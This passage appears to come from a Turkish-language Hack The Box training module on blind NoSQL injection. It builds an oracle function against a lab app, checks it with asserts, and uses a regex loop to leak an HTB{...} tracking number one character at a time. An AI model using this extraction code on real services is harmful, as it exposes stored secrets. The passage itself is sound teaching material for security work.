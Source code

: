 Bu fonksiyon, **`/index.php`**'ye bir POST isteği gönderecek ve **`trackingNum`** değerini istediğimiz **query** ile ayarlayacaktır. Ardından, yanıtın içinde **`bmdyy`** metninin olup olmadığını kontrol eder, bu da **query**'mizin hedef paketiyle eşleştiğini gösterir.

`Oracle` fonksiyonunun amacına uygun çalışıp çalışmadığını, bilinen response'larla yapılan bir çift **[assert](https://www.tutorialspoint.com/python3/assertions_in_python.htm)** ifadesi ile doğrulayabiliriz. Bu durumda, `X` `trackingNum` olmadığını biliyoruz, bu yüzden **`trackingNum: "X"`** ile gönderilen bir istekte oracle'ın **`False`** döndüğünü doğrulayabiliriz. Ayrıca, **`trackingNum`**'ın **`HTB{.*`** şeklinde olduğunu biliyoruz, bu yüzden oracle fonksiyonunun **`True`** döndüğünü doğrulayabiliriz.

```python
# Oracle'ın doğru çalıştığından emin olun
assert (oracle("X") == False)
assert (oracle({"$regex": "HTB{.*"}) == True)
```

Bunu çalıştırırsak ve her şey doğru şekilde ayarlanmışsa, herhangi bir output olmamalıdır. Eğer çıktı alırsanız, muhtemelen kodunuzda bir yazım hatası vardır (örneğin, bu örnekte küçük `b` yerine büyük `B` kullanılması gibi):

```shell-session
[!bash!]$ python3 mangopost-exploit.py 

Traceback (most recent call last):
  File "/...SNIP.../mangopost-exploit.py", line 18, in <module>
    assert (req({"$regex": "^HTb{.*"}) == True)
AssertionError
```

Oracle fonksiyonumuz hazır ve doğru şekilde çalıştığını doğruladıktan sonra, **`tracking number`**'ı sızdırmaya geçebiliriz.

Bu bölüm için, takip numarasının şu formata uyduğunu varsayabiliriz: `^HTB{[0-9a-f]{32}}$`, yani **`HTB{`** ardından 32 karakter `[0-9a-f]` ve sonrasında bir **`}`** gelir. Bunu bildiğimiz için, aramamızı yalnızca bu karakterlerle sınırlayarak yapacağımız request sayısını önemli ölçüde azaltabiliriz.

```python
# Takip numarasını dump edin
trackingNum = "HTB{" # Takip numarasının ‘HTB{’ ile başladığı bilinmektedir
for _ in range(32): # Aşağıdakileri 32 kez tekrarlayın
    for c in "0123456789abcdef": # Karakterler arasında döngü [0-9a-f]
        if oracle({"$regex": "^" + trackingNum + c}): # <trackingNum> + <char>'ın $regex ile eşleşip eşleşmediğini kontrol edin
            trackingNum += c # Eğer varsa, trackingNum'a karakter ekle ...
            break # ... ve döngüden çıkmak
trackingNum += "}" # Takip numarasının sonuna bilinen ‘}’ ekleme
```

Bu kod, **RegEx** sorguları oluşturacak ve her seferinde bir karakter sızdırmak için **oracle** fonksiyonunu kullanarak tüm karakterler öğrenilene kadar devam edecektir. Kod tamamlandığında, **`tracking number`**'ın doğru olduğunu başka bir **`assert`** ile doğrulayabiliriz ve ardından bunu yazdırabiliriz:

```python
# Takip numarasının doğru olduğundan emin olun
assert (oracle(trackingNum) == True)

print("Tracking Number: " + trackingNum)
```
